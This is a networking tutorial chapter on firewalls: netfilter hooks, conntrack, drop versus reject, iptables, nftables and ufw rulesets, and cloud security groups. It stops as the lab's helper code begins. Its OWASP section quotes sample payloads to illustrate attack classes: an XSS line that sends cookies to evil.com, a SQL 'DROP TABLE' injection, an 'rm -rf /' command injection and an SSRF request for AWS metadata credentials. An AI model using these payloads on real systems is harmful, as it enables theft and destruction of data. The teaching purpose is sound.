


> **Navigation**: [← TLS](09_TLS_Encryption.md) | [Index](00_INDEX.md) | [Next → Load Balancing](11_Load_Balancing_Proxies.md)

# 🧱 Chapter 10: Firewalls & Access Control — The Gatekeepers

> _"A firewall without a security policy is like a locked door with the key under the mat. You need to understand WHAT you're protecting, from WHOM, and design rules that enforce that intent."_

> **Verified on:** WSL2 Ubuntu 24.04.1 (kernel 6.6.87.2-microsoft-standard-WSL2, built with `CONFIG_NF_TABLES=y` and `CONFIG_NF_CONNTRACK=y`), iproute2 6.1.0, curl 8.5.0, Python 3.12.3. The kernel's nf_tables and connection tracking were exercised inside private network namespaces (`unshare -rn`). **The `nft`, `iptables` and `ufw` programs are not installed here**, so their command syntax below is *not verified here*; the rules were installed through the same kernel interface (nf_tables over netlink) with a small Python helper listed in the Lab. Vendor appliances (Cisco, Palo Alto, Fortinet, pfSense) and AWS were not available.

---

# PART 0: The Problem, Derived — What Would You Have to Invent?

---

A server runs many programs, each listening on a port. Some should be reachable by everyone (the web server), some only by a few machines (the database), some by nobody outside the host (an admin console bound by mistake to all interfaces). You cannot rely on each program to police its own callers: some cannot (they have no idea who is allowed), some are buggy, and some are not yours. So the question becomes *what would you have to invent to decide, before a program ever sees a packet, whether the packet may pass?*

**1. A decision point in the packet path.** The kernel already looks at every packet's header to route it. Put a checkpoint at the places a packet passes: when it arrives (before the routing decision), when it is delivered to a local process, when it is forwarded between interfaces, when a local process sends it, and when it leaves. Linux calls these the five **netfilter hooks**: PREROUTING, INPUT, FORWARD, OUTPUT, POSTROUTING. A firewall is code attached to a hook that returns a **verdict** for each packet: accept it, drop it, or reject it.

**2. A rule language over header fields.** The cheapest thing to match on is what is already in the header: source and destination address, protocol, source and destination port (the "5-tuple"). A rule is "if these fields match, return this verdict". Rules go in a list, and you must decide how conflicts resolve: the simplest is **first match wins**, with a **default verdict** (the *policy*) for packets nothing matched. Two consequences you must live with from here on: **order is meaning**, and **the policy decides what you forgot**. A default of *drop* means a forgotten case is blocked; a default of *accept* means a forgotten case is open.

**3. A stateless filter cannot tell a reply from an attack.** Suppose the policy is drop and the only rule is "accept inbound TCP to port 80". Clients can reach the web server. But the server itself makes outbound connections (package updates, DNS lookups, calls to a database), and their *replies* arrive inbound, addressed to a random high port that no rule allows. They are dropped, and the server's own outgoing connections hang. The stateless workarounds are all bad: open every high port inbound (the filter now allows almost everything), or accept any packet with the TCP `ACK` flag set (an attacker simply sets `ACK`).

**4. So remember conversations.** What would fix it is a table of live connections, keyed by the 5-tuple. When an outbound SYN leaves, add an entry; an inbound packet that matches an entry's reverse direction is a *reply*, not a new connection, and can be allowed by a single rule. Linux calls this table **conntrack**, and a packet's relationship to it is its `ct state`: `new`, `established`, `related` (for example an ICMP error about a known flow), or `invalid`. This is what separates a *stateful* firewall from a packet filter, and the Lab shows the difference in running code.

**5. Silence or an answer?** When the verdict is "no", the sender can be left to time out (**drop**) or told immediately (**reject**, by a TCP reset or an ICMP error). Drop gives a scanner nothing to learn from and costs it time, but it also makes *your own* misconfigurations hard to diagnose and makes legitimate clients wait. Reject fails fast and is friendlier on an internal network. Both behaviours are measured below.

**6. The decision order, as a diagram.** Everything above reduces to one loop that runs for every packet at a hook:



**How to read this diagram.** A packet enters at the top and is compared with rules strictly in list order. The first rule whose conditions all match decides the outcome and nothing after it is looked at, so a broad rule early in the list silently hides every narrower rule below it. Only when no rule matches does the chain's default policy apply. That is why a typical ruleset starts with the cheap, high-volume `established,related` accept, then specific allows, and why a "drop this host" rule placed *after* "accept this port" never fires for that port.

## The decisions on real output

The test network is the same three-namespace layout as [Chapter 5](05_IP_Addressing_Subnets.md): client A (`10.0.1.10`), a forwarding router, and server B (`10.0.2.10`) running web servers on ports 80 and 8080, with a web server on A's port 8000 so that B can make an *outbound* connection. The ruleset lives only on B's INPUT hook. Each row is a fresh network with one ruleset; `curl -m 3` gives up after 3 seconds.

| Ruleset on B (policy drop unless stated) | A to B:80 | A to B:8080 | B to A:8000 (B's own outbound) |
| --- | --- | --- | --- |
| none (baseline) | `200` in 1.4 ms | n/a (closed port 9999: refused in 0.1 ms) | `200` |
| policy drop, no rules | timeout 3.0 s | timeout 3.0 s | **timeout 3.0 s** |
| `ct state established,related accept` only | timeout 3.0 s | timeout 3.0 s | `200` |
| established + `tcp dport 80 accept` | `200` in 1.1 ms | timeout 3.0 s | `200` |
| established + accept 80 + `tcp dport 8080 reject with tcp reset` | `200` | **refused in 0.1 ms** | `200` |
| only `tcp dport 80 accept`, no `ct` rule (stateless) | `200` | timeout 3.0 s | **timeout 3.0 s** |
| established, accept 80, *then* `drop` source A | `200` (accept came first) | timeout | `200` |
| established, *drop* source A, *then* accept 80 | **timeout 3.0 s** | timeout | `200` |

Read the rows against the numbered derivation. Row 2 is step 2's "policy decides what you forgot": a drop policy with no rules took away even the *outbound* connection from B. The `ct state` rule alone (row 3) restores B's outbound, which is step 4. Rows 4 and 6 differ only in the `ct` rule, and only the stateless one breaks B's outbound: step 3. Rows 5 and the closed-port baseline show step 5: a reject returns in a tenth of a millisecond, the same speed as a genuinely closed port, while a drop leaves the client waiting. Rows 7 and 8 contain exactly the same two rules in opposite order and give opposite results: the diagram's first-match rule.

Without `-m 3`, a dropped SYN is not abandoned after 3 seconds: Linux retransmits it with doubling intervals and `net.ipv4.tcp_syn_retries = 6` (the value read here) means giving up after about 127 seconds in total. A user facing a dropped port waits two minutes for an error.

What the client's error text tells you, observed with `nc -zv -w3` and `curl`:

```text
drop (no rule matched, policy drop)      nc: connect to 10.0.2.10 port 8080 (tcp) timed out: Operation now in progress
reject with tcp reset                    nc: connect to 10.0.2.10 port 8080 (tcp) failed: Connection refused
reject with icmp admin-prohibited (13)   nc: connect to 10.0.2.10 port 8080 (tcp) failed: No route to host
```

Note the third line: a *firewall's ICMP reject* shows up as `No route to host`, the same text as an unanswered ARP, so the message alone does not say which of them you have (Chapter 15 separates them).



**How to read this diagram.** Time runs downward. Only the very first packet is judged by a port rule, because it is the only one in state `new`; the conntrack entry it creates lets every later packet in either direction through the first rule of the list (`established,related`). That is also why that rule goes first: nearly all traffic matches it, and it is cheap.

---

# PART 1: Firewall Types & History

---

```
THE EVOLUTION:
(Dates below are approximate industry history, not verified here. Read them as an ORDER of
 ideas, not as citations: packet filters, then connection tracking, then content inspection.)

1988 — PACKET FILTER (Generation 1):
  Inspects each packet INDEPENDENTLY. No connection state.
  Decision based on: source IP, dest IP, source port, dest port, protocol.
  Fast but dumb. Can't distinguish legitimate responses from spoofed packets.

  Example: iptables in "stateless" mode.

1994 — STATEFUL FIREWALL (Generation 2):
  Tracks CONNECTION STATE (TCP state machine, UDP "connections").
  Knows: "this inbound packet is a RESPONSE to our outbound request."
  Can allow responses automatically (ESTABLISHED,RELATED).

  Example: iptables with conntrack module, pf (BSD), Cisco ASA.

2004 — APPLICATION FIREWALL (Generation 3 / NGFW):
  Inspects CONTENT at Layer 7. Understands HTTP, DNS, FTP, SQL.
  Can block: SQL injection patterns, malware downloads, specific URLs.
  Deep Packet Inspection (DPI): looks inside encrypted traffic (with TLS interception).

  Example: Palo Alto, Fortinet FortiGate, pfSense with Suricata.

2010s — WAF (Web Application Firewall):
  Specifically protects web applications.
  Works at HTTP layer (headers, body, URLs).
  Rules: OWASP Core Rule Set (CRS).
  Blocks: SQL injection, XSS, CSRF, path traversal, command injection.

  Example: AWS WAF, Cloudflare WAF, ModSecurity (open source).

2020s — ZERO TRUST:
  "Never trust, always verify." No implicit trust for ANY traffic.
  Even INTERNAL traffic must be authenticated and authorized.
  Every request is verified: identity, device health, location, risk score.

  Implementation: Service mesh (mTLS), BeyondCorp (Google), Microsoft Entra.

FIREWALL TYPES BY DEPLOYMENT:

HOST FIREWALL:        On each machine. Protects one machine.
                      iptables, nftables, UFW, Windows Defender Firewall.

NETWORK FIREWALL:     Between networks. Protects entire subnet/VLAN.
                      Cisco ASA, Palo Alto, FortiGate, pfSense.

CLOUD FIREWALL:       Software-defined. Per-instance or per-subnet.
                      AWS Security Groups, AWS NACLs, GCP Firewall, Azure NSG.

WAF:                  Protects web apps at HTTP layer.
                      Cloudflare WAF, AWS WAF, ModSecurity.
```

---

# PART 2: iptables — The Linux Firewall Deep Dive

---

```
ARCHITECTURE:

iptables uses TABLES, CHAINS, and RULES:

TABLE: What to do.
  filter:  Allow or deny packets (DEFAULT — most commonly used).
  nat:     Network Address Translation (SNAT, DNAT, masquerading).
  mangle:  Modify packet headers (TTL, TOS, marking).
  raw:     Bypass connection tracking (high-performance, special cases).

CHAIN: When to filter.
  INPUT:    Packets arriving AT this machine (destined for here).
  OUTPUT:   Packets generated BY this machine (leaving from here).
  FORWARD:  Packets passing THROUGH this machine (router/gateway mode).
  PREROUTING:  Before routing decision (nat table, DNAT).
  POSTROUTING: After routing decision (nat table, SNAT/masquerade).

RULE: A single filtering decision.
  Match criteria (source IP, dest port, protocol, state, etc.)
  + Target action (ACCEPT, DROP, REJECT, LOG).

PACKET FLOW:
  Incoming packet (destined for this machine):
  PREROUTING → routing decision → INPUT → local process

  Outgoing packet (generated by this machine):
  local process → OUTPUT → routing decision → POSTROUTING

  Forwarded packet (passing through this machine):
  PREROUTING → routing decision → FORWARD → POSTROUTING

TARGETS:
  ACCEPT: Allow the packet through.
  DROP:   Silently discard. Sender gets NO response (timeout).
  REJECT: Discard but send ICMP error back. Sender knows immediately.
  LOG:    Log to syslog, then continue to next rule.
  SNAT:   Change source IP (nat table, POSTROUTING).
  DNAT:   Change destination IP (nat table, PREROUTING).
  MASQUERADE: Like SNAT but uses the outgoing interface's IP (NAT for dynamic IPs).
```

```bash
# ── IPTABLES COMPLETE RULESET EXAMPLE (iptables syntax: not verified here, no iptables binary) ──
#
# WARNING, corrected from the original order: if you run this over SSH, the original sequence
# set "-P INPUT DROP" BEFORE the rules that accept your own session (ESTABLISHED and port 22),
# which cuts your connection mid-script and leaves the machine unreachable. The same effect
# was reproduced in the Lab with an equivalent nf_tables ruleset: a drop policy with no
# accept rules for established traffic blocks every reply. SAFE ORDER: add all ACCEPT rules
# first, set the DROP policy LAST, and keep a second session open (or schedule a rollback
# such as "sleep 60; iptables -P INPUT ACCEPT" in the background) while you test.

# Flush all existing rules (start clean)
sudo iptables -F
sudo iptables -t nat -F

# Allow loopback interface (localhost communication)
sudo iptables -A INPUT -i lo -j ACCEPT

# Allow established and related connections (responses to OUR requests)
sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

# Block invalid packets (malformed headers, impossible flag combinations)
# Moved up from the end of the original list: iptables is FIRST MATCH, and the original
# placed this AFTER the accepts for ports 22, 80, 443, 53 and 5432, so for those ports an
# INVALID packet was already accepted and this rule never saw it.
sudo iptables -A INPUT -m conntrack --ctstate INVALID -j DROP

# Rate limit incoming connections (anti-DDoS basic protection)
# Also moved up for the same reason: after the accepts it could never apply to 80/443.
# Caution: clients behind one NAT share one source IP, so 50 may be too low for them.
sudo iptables -A INPUT -p tcp --syn -m connlimit --connlimit-above 50 -j DROP
# More than 50 concurrent connections from same IP → drop

# Allow ICMP (ping) — useful for monitoring, limit rate to prevent flood
sudo iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 5/sec -j ACCEPT

# Allow SSH from specific subnet only
sudo iptables -A INPUT -p tcp --dport 22 -s 10.0.1.0/24 -j ACCEPT
# Log denied SSH attempts for security audit
sudo iptables -A INPUT -p tcp --dport 22 -j LOG --log-prefix "SSH_DENIED: " --log-level 4
sudo iptables -A INPUT -p tcp --dport 22 -j DROP

# Allow HTTP/HTTPS from anywhere
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# Allow DNS (both TCP and UDP on port 53)
# Only needed if THIS machine is a DNS server. A client's own lookups are answered through
# the ESTABLISHED rule above, so opening inbound 53 on every host only adds attack surface.
sudo iptables -A INPUT -p udp --dport 53 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 53 -j ACCEPT

# Allow PostgreSQL from app servers only
sudo iptables -A INPUT -p tcp --dport 5432 -s 10.0.2.0/24 -j ACCEPT

# Log all other dropped packets (security monitoring)
sudo iptables -A INPUT -j LOG --log-prefix "DROPPED: " --log-level 4

# Set default policies LAST (DENY ALL by default — whitelisting approach)
sudo iptables -P INPUT DROP      # block all incoming by default
sudo iptables -P FORWARD DROP    # block all forwarded by default
sudo iptables -P OUTPUT ACCEPT   # allow all outgoing (we trust our machine)

# ── NAT RULES (if this machine is a router/gateway) ──

# Enable IP forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# SNAT / Masquerade: internal network → internet
sudo iptables -t nat -A POSTROUTING -s 192.168.1.0/24 -o eth0 -j MASQUERADE

# DNAT / Port forwarding: external port 8080 → internal server 192.168.1.50:80
sudo iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.50:80
sudo iptables -A FORWARD -p tcp -d 192.168.1.50 --dport 80 -j ACCEPT

# Corrected (missing rules): with "-P FORWARD DROP" the two lines above are NOT enough.
# Nothing accepts the REPLIES travelling back through the router, and nothing accepts the
# internal network's own outbound traffic, so masquerading never gets a packet to translate.
# The same mistake was measured on the FORWARD hook with an equivalent nf_tables ruleset
# (router between A and B): with only "accept tcp dport 80" the client timed out after 3.0 s;
# adding "ct state established,related accept" made it succeed (HTTP 200 in 1.6 ms).
sudo iptables -A FORWARD -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A FORWARD -s 192.168.1.0/24 -o eth0 -j ACCEPT    # internal hosts may go out
# (Put these before any DROP rule. The nat table runs first, so PREROUTING has already
# rewritten the destination to 192.168.1.50 when FORWARD sees the packet.)

# ── SAVE AND VERIFY ──
sudo iptables-save | sudo tee /etc/iptables/rules.v4 > /dev/null   # persist rules
# Corrected: the original "sudo iptables-save > /etc/iptables/rules.v4" runs the redirect in
# YOUR shell, not under sudo, so it fails with "Permission denied" for a root-owned path.
# (Debian/Ubuntu also need the iptables-persistent package to reload this file at boot.)
sudo iptables -L -v -n --line-numbers           # view all rules with stats
```

```bash
# ── NFTABLES (modern replacement for iptables) ──

# nftables uses a cleaner syntax and is the future of Linux firewalling.
# iptables is legacy but still widely used.
# Corrected: the original said "nftables is the backend since kernel 5.x". The nf_tables kernel
# subsystem was merged in Linux 3.13 (January 2014, from memory, not verified here). What came
# later is that distributions made the iptables COMMAND a compatibility front-end (iptables-nft)
# that programs nf_tables underneath. This lab's kernel has CONFIG_NF_TABLES=y.
# nft syntax below: not verified here (no nft binary). To avoid the lockout described above,
# put the whole ruleset in a file and load it with "sudo nft -f ruleset.nft": nft applies a file
# as ONE atomic transaction, so there is no moment with a drop policy and no accept rules.

sudo nft add table inet filter
sudo nft add chain inet filter input { type filter hook input priority 0 \; policy drop \; }
sudo nft add chain inet filter forward { type filter hook forward priority 0 \; policy drop \; }
sudo nft add chain inet filter output { type filter hook output priority 0 \; policy accept \; }

# Allow loopback
sudo nft add rule inet filter input iif "lo" accept

# Allow established connections
sudo nft add rule inet filter input ct state established,related accept

# Allow SSH from subnet
sudo nft add rule inet filter input ip saddr 10.0.1.0/24 tcp dport 22 accept

# Allow HTTP/HTTPS
sudo nft add rule inet filter input tcp dport { 80, 443 } accept

# Rate limit SSH (max 3 per minute)
# Note: packets above the rate do not match this rule and fall to the policy (drop here);
# and because the subnet rule above already accepted 10.0.1.0/24, only other sources are limited.
sudo nft add rule inet filter input tcp dport 22 ct state new limit rate 3/minute accept

# List all rules
sudo nft list ruleset

# ── UFW (Ubuntu — simplest wrapper; ufw not installed here, syntax not verified) ──
# Corrected order: the original ran "ufw enable" first, which switches the firewall on with
# a default-deny incoming policy BEFORE the SSH allow rule exists, so a remote session can be
# locked out. Add the allow rules first, enable last.
sudo ufw default deny incoming
sudo ufw default allow outgoing
sudo ufw allow 443/tcp comment "HTTPS"
sudo ufw allow from 10.0.1.0/24 to any port 22 comment "SSH from internal"
sudo ufw deny from 0.0.0.0/0 to any port 22 comment "Block SSH from internet"
sudo ufw enable
sudo ufw status verbose
sudo ufw status numbered     # see rule numbers for deletion
sudo ufw delete 5            # delete rule #5
```

---

# PART 3: Hardware & Enterprise Firewalls

---

```
ACCESSING AND MANAGING HARDWARE FIREWALLS:
(Not verified here: no appliances or vendor documentation were available. Command names,
 default credentials and defaults below are the original chapter's and change between
 versions; some vendors now force a password change on first login. Check the vendor's
 current documentation, and change every default credential before the device is reachable.)

CISCO ASA:
  Initial access: Serial console cable (9600 baud, 8-N-1).
  After network config: SSH or ASDM (web-based Java GUI).

  CLI commands:
  show running-config              # view all configuration
  show access-list                 # view ACLs (firewall rules)
  show conn count                  # active connections
  show xlate                       # NAT translations

  Adding ACL:
  access-list OUTSIDE_IN extended permit tcp any host 54.123.45.67 eq 443
  access-group OUTSIDE_IN in interface outside

PALO ALTO:
  Web GUI: https://<firewall-ip>  (default admin/admin → change!)
  CLI via SSH: username@firewall>

  Key concept: Security ZONES (instead of interfaces).
  Trust → Untrust: allow explicitly.
  Untrust → Trust: deny by default.

  show system info
  show running security-policy
  show session all

FORTINET FORTIGATE:
  Web GUI: https://<firewall-ip>  (default admin, no password → set immediately!)
  CLI via SSH.

  config firewall policy
    edit 1
      set srcintf "internal"
      set dstintf "wan1"
      set srcaddr "all"
      set dstaddr "all"
      set action accept
      set service "HTTPS" "SSH"
      set logtraffic all
    end

  get firewall policy          # show policies
  diagnose sniffer packet any 'tcp port 443' 4  # packet capture!

PFSENSE (open source):
  Install on any x86 hardware or VM.
  Web GUI: https://192.168.1.1 (default admin/pfsense → change!).
  Features: Firewall, VPN, IDS/IPS (Suricata), DNS, DHCP, traffic shaping.

  Best for: home labs, small businesses, learning firewalls.

  Rules: Interfaces → WAN/LAN rules → Add rule.
  Logs: Status → System Logs → Firewall.
```

---

# PART 4: AWS Security Groups & NACLs — Cloud Firewalls

---

```
AWS HAS TWO FIREWALL LAYERS:

SECURITY GROUPS (instance-level):
  ┌─────────────────────────────────────┐
  │ STATEFUL: if inbound allowed,       │
  │ response is AUTOMATICALLY allowed.  │
  │ No need for explicit outbound rule. │
  │                                     │
  │ Default: deny all inbound,          │
  │          allow all outbound.        │
  │                                     │
  │ Can reference OTHER security groups!│
  │ "Allow traffic from SG-web-servers" │
  └─────────────────────────────────────┘

  This is THE primary security control for AWS instances.

NACLs (Network Access Control Lists — subnet-level):
  ┌─────────────────────────────────────┐
  │ STATELESS: inbound AND outbound     │
  │ must be explicitly configured.      │
  │                                     │
  │ NUMBERED RULES (processed in order).│
  │ First match wins!                   │
  │                                     │
  │ Default: allow all (but you should  │
  │ customize for defense-in-depth).    │
  └─────────────────────────────────────┘

  Used as an extra layer of defense. Most people rely on Security Groups.

CORRECTIONS AND DETAILS (from AWS documentation as remembered; AWS was not available and the
docs were not fetched here, so confirm against the current VPC documentation):
  - The NACL line above ("Default: allow all") is true only for the DEFAULT NACL that comes
    with a VPC. A NACL you create yourself starts by denying ALL traffic in both directions
    until you add rules, which is a common cause of "I created a subnet and nothing works".
  - NACL rules are numbered and evaluated lowest number first; the first match decides. Every
    NACL also ends with an implicit deny you cannot remove.
  - Because a NACL is stateless, the REPLY direction needs its own rule. A client's reply
    comes back to a random high port, so the return rule must cover an ephemeral port range
    (AWS suggests 1024-65535 for general clients; this is exactly the stateless problem
    derived in Part 0 and measured in the Lab).
  - Security group rules only ALLOW; there is no deny rule. A new custom security group has no
    inbound rules (all inbound denied) and one outbound rule allowing everything. The VPC's
    DEFAULT security group is different: it allows inbound traffic from members of itself.
  - A security group is stateful (tracks the connection), so a reply to an allowed request
    is allowed even if no rule matches the reply's direction.

WHEN TO USE WHICH:
  Security Groups: ALWAYS. Primary access control. Per-instance.
  NACLs: SOMETIMES. Subnet-wide blocking (e.g., block an entire IP range globally).
  Both: Defense in depth. SG blocks at instance, NACL blocks at subnet.
```

---

# PART 5: OWASP Top 10 — What Attackers Target

---

```
Edition note: the list below is the OWASP Top 10 **2021** edition (the A01:2021 labels). A
2025 edition now exists: the OWASP site (owasp.org/Top10 redirects to top10.owasp.org, which
redirects to "OWASP Top 10:2025") names 2025 as current. The category list was not fetched
here, so the 2025 names and numbering are not reproduced; categories are reordered and
renamed between editions, so cite the edition with the ID, for example "A01:2021".
```

```
1. BROKEN ACCESS CONTROL (A01:2021):
   Users access resources they shouldn't.
   IDOR: /api/users/123 → change to /api/users/456 → see other user's data!
   Fix: check authorization on EVERY request. Never trust client-side checks.

2. CRYPTOGRAPHIC FAILURES (A02:2021):
   Storing passwords in plaintext. Using MD5/SHA-1 for passwords.
   Transmitting data without TLS. Weak random number generation.
   Fix: bcrypt for passwords, AES-256-GCM for encryption, TLS 1.2+ everywhere.

3. INJECTION (A03:2021):
   SQL injection: SELECT * FROM users WHERE id = '1'; DROP TABLE users; --'
   XSS: <script>document.location='http://evil.com?cookie='+document.cookie</script>
   Command injection: filename = "; rm -rf /"
   Fix: parameterized queries, input validation, output encoding, CSP headers.
   SEE: SQL Security chapter for detailed SQL injection prevention.

4. INSECURE DESIGN (A04:2021):
   Architectural flaws. No rate limiting. No account lockout after failed logins.
   Missing business logic validation ("buy -10 items" = money credited!).
   Fix: threat modeling before coding, security requirements in design phase.

5. SECURITY MISCONFIGURATION (A05:2021):
   Default passwords left unchanged. Debug mode in production.
   Unnecessary services running. Stack traces exposed to users.
   S3 buckets publicly accessible (this leaks data ALL THE TIME).
   Fix: hardening checklists, security scanning, infrastructure as code.

6. VULNERABLE COMPONENTS (A06:2021):
   Using outdated libraries with known CVEs.
   Log4Shell (CVE-2021-44228): critical RCE in the most popular Java logging library.
   Fix: Dependabot, Snyk, npm audit, pip-audit. Patch FAST.

7. AUTHENTICATION FAILURES (A07:2021):
   Weak passwords allowed. No MFA. Credential stuffing not prevented.
   Session fixation. Password reset tokens that don't expire.
   Fix: strong password policies, MFA, rate limiting, secure session management.

8. DATA INTEGRITY FAILURES (A08:2021):
   Insecure deserialization (attacker crafts serialized object → RCE).
   Unsigned software updates (attacker replaces your update with malware).
   Fix: signed artifacts, integrity checks, avoid deserializing untrusted data.

9. LOGGING & MONITORING FAILURES (A09:2021):
   No audit logs for login attempts, privilege changes, data access.
   No alerts on suspicious behavior. Evidence destroyed after breach.
   Fix: structured logging, SIEM, alert on anomalies, retain logs 90+ days.

10. SSRF — SERVER-SIDE REQUEST FORGERY (A10:2021):
    App fetches a user-provided URL → attacker provides internal URL.
    /api/fetch?url=http://169.254.169.254/latest/meta-data/iam/ ← AWS metadata!
    → Attacker gets IAM credentials from EC2 instance metadata.
    Fix: URL whitelist, block private IP ranges, don't pass URLs from user input.
```

---

## Alternatives and When to Use Each

| Control | Use it when | Avoid or supplement it when | What it trades away |
| --- | --- | --- | --- |
| Host firewall (nftables, iptables, ufw, firewalld) | Every server: it protects the machine even if the network around it is flat or misconfigured | You manage hundreds of hosts by hand: rules drift, so generate them from configuration management | Rules live on each host (more places to be wrong) but cannot be bypassed by a network mistake |
| `iptables` command vs `nft` | `iptables` for existing scripts and tools that emit it (some container tooling still does) | New rulesets: `nft` has sets, atomic loading and one syntax for IPv4 and IPv6 | Mixing both on one host makes it hard to see the full ruleset in one place |
| `ufw` / `firewalld` front-ends | Small hosts where "allow these three ports" is the whole policy | Anything with forwarding, NAT or per-source logic you need to reason about exactly | Simplicity now, less control and an extra layer to debug later |
| Cloud security group | The default control for any cloud instance; reference other groups instead of IP ranges | You need an explicit **deny** (security groups only allow) or must block a range for a whole subnet | Stateful and per-instance, but no deny rules |
| Network ACL (subnet level) | Blocking a hostile range across a whole subnet, or a compliance rule that must not depend on instance owners | As your main control: it is stateless, so return traffic needs its own rules and mistakes are easy | Stateless, numbered rules, explicit deny, the cost is complexity |
| Kubernetes NetworkPolicy | Pod-to-pod segmentation inside a cluster | A cluster whose network plugin does not enforce it: the policy objects are accepted and silently do nothing | Needs a plugin that implements it; verifying that is part of the job (Chapter 15) |
| WAF (layer 7) | Filtering known attack patterns in HTTP at the edge | As a substitute for fixing the vulnerable code | Sees only HTTP and only the patterns it knows |
| Identity-based access (mTLS, tokens) | Service-to-service access where network location is not a trustworthy proof of who is calling | Alone, for exposure control: you still want a firewall so only the right ports are reachable at all | Better identity, but certificates and policies must be managed ([Chapter 9](09_TLS_Encryption.md)) |

**Drop or reject?** Drop on interfaces facing the internet for services you do not publish: scanners learn nothing and waste time. Reject on internal networks and for ports your own users may hit by mistake: they fail in milliseconds with a clear error instead of waiting about two minutes (measured above), and your own debugging is shorter. Never mix them by accident; a drop where you meant reject is the usual cause of "the connection just hangs".

## How It Fails and How to Debug It

| Symptom | Cause | Command that proves it |
| --- | --- | --- |
| Client hangs, error only after minutes (`timed out`) | A DROP somewhere on the path, or the host is down | `nc -zv -w3 HOST PORT` prints `timed out`; compare with a closed port, which answers at once. Server side: counters on the drop rule rise (`nft list ruleset` or `iptables -L -v -n`, not verified here) |
| `Connection refused` instantly | No listener, or a REJECT with TCP reset | On the server `ss -ltn` shows whether anything listens on that port; if something does and it is still refused, look for a reject rule |
| `No route to host` although routes are fine | A firewall REJECT with ICMP admin-prohibited (reproduced above), or ARP failing on the same link | `ip neigh` (a `FAILED` entry means ARP); otherwise a capture shows ICMP type 3 code 13 coming back |
| After "hardening", `apt update` or DNS lookups from the server hang but inbound web works | Drop policy without an `established,related` accept: replies to the server's own outbound connections are dropped | Reproduced: with a drop policy and no `ct` rule the server's own request timed out after 3.0 s; adding the `ct` rule fixed it |
| New rule has no effect | An earlier, broader rule matches first (first match wins) | List rules in order with counters; the first rule whose counter rises is the one deciding. Reproduced: the same two rules in opposite order gave `200` and a timeout |
| Port forward (DNAT) works one way only, or never | The forward chain accepts the request but not the replies, or the internal network's outbound traffic | Reproduced on the FORWARD hook: timeout until `ct state established,related accept` was added |
| Locked out of your own server | A drop policy was applied before the accept rules for your session | Out-of-band console only. Prevention: load rules atomically from a file, set the policy last, keep a second session open |
| Subnet unreachable after adding a custom NACL (cloud) | A custom NACL denies everything until you allow it, and it is stateless | Check both the inbound rule and the outbound ephemeral-port rule (AWS behaviour from documentation as remembered, not run here) |
| Ports published by Docker are reachable although `ufw` denies them | Docker writes its own iptables rules that are evaluated before ufw's | Not verified here (no Docker): list the rules with `iptables -L -n -t nat` and `iptables -L DOCKER-USER -n` on the host and look for the published port |
| Rules vanish after a reboot | They were loaded into the running kernel and never saved | Compare `nft list ruleset` (or `iptables-save`) with the persisted file (not verified here) |

## Lab: Watch the Firewall Make Each Decision

Needs a Linux kernel with nf_tables and conntrack (WSL2's kernel qualifies), `iproute2`, `curl`, `nc` and Python 3. No root: `unshare -rn` creates private namespaces in which you are root. Because `nft` is not installed in the lab used for this chapter, the rules are installed through the kernel's own interface (nf_tables over netlink) by the helper below; every outcome was observed. On a machine with `nft`, the rules of step 3 are the nft commands shown after the lab.

1. Save this helper as `~/lab/nfl.py`. It builds one table with one INPUT-hook chain and a list of rules, and defines the named rulesets used in step 3.

<details><summary>Helper: nf_tables over netlink in about 75 lines (click to expand)</summary>

```python
